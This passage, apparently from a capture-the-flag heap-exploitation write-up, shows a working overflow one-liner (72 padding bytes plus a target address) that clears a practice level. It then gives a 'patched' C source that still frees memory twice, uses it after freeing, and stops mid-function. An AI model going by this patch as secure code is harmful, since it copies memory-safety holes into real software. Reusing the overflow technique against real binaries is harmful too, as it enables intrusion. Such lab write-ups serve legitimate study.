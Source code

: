 ```
Addresses I tried:
0xffffd01c
0xffffd02c
0xffffd03c
0xffffd04c
```

Then I found the correct address, 0xffffd04c. So the final alternative exploit looks like this.

```
guyinatuxedo@tux:/Hackery/escape/heap_exp/h4$ python -c 'print "0"*72 + "\x4c\xd0\xff\xff"' | ./h4
Where do you want to point the James Webb Space Telescope?
Wow while managine to not do your research, you discovered life on another planet. I am genuinely surprised. Level Cleared!
```

Just like that we pwned the binary again. Let's patch it!

```
#include <stdlib.h>
#include <stdio.h>

struct nova
{
   char pulsar[50];
   int  cluster;
   int *ion;
};

int main()
{
   int solar_wind;

   int ran;
   ran = fopen("/dev/urandom", "rb");
   char rbuf[50];
   fread(rbuf, sizeof(rbuf), 1, ran);
   srand(rbuf);

   struct nova *centari, *castor, *vega;
   
   centari = malloc(sizeof(struct nova));
   centari->ion = malloc(9);
   centari->cluster = 0;

   castor = malloc(sizeof(struct nova));
   castor->ion = malloc(9);
   castor->cluster = 0;
      

   vega = malloc(sizeof(struct nova));
   vega->ion = malloc(9);
   vega->cluster = 0;

   centari->cluster = rand() % 100;
   solar_wind = centari->cluster;
   free(centari->ion);
   memset(centari->ion, '0', sizeof(centari->ion));_
   memset(centari, '0', sizeof(struct nova));
   free(centari);
   free(centari->ion);
   centari = NULL;   

   fgets(castor->ion, sizeof(castor->ion), stdin);
   
```